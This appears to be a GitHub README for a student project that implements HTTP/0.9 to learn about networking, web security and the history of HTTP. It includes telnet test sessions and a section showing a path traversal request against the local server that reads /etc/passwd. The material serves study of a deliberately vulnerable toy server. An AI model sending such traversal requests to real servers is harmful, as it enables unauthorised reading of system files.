 ## Implementation of HTTP Versions

This repository is made to study networking programming and web security while learning about the http history.

## HTTP/0.9

Was the first version of http, there were no status codes, headers, only html pages.

## References

- HTTP/0.9 - https://http.dev/0.9
- Evolution of HTTP - https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP
- The first http web page - http://info.cern.ch/hypertext/WWW/TheProject.html

## How to test

### Existing file

```bash
$ telnet localhost 3333
Trying ::1...
Connected to localhost.
Escape character is '^]'.
GET /index.html
<html>
  A very simple HTML page
</html>
Connection closed by foreign host.
```

### Not existing file

```bash
$ telnet localhost 3333
Trying ::1...
Connected to localhost.
Escape character is '^]'.
GET /foo.html
<html>
  Not found
</html>
Connection closed by foreign host.
```

## The first version of HTTP/0.9 is vulnerable to [path traversal attacks](https://owasp.org/www-community/attacks/Path_Traversal)

- [Commit](https://github.com/thiago-figueredo/http-history/commit/106e0ef31704ee02647ed729b314b747e022d076)

You can explore the path traversal vulnerability be trying to read important system files like **/etc/passwd**

```bash
$ telnet localhost 3333
Trying ::1...
Connected to localhost.
Escape character is '^]'.
GET ../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Connection closed by foreign host.
```
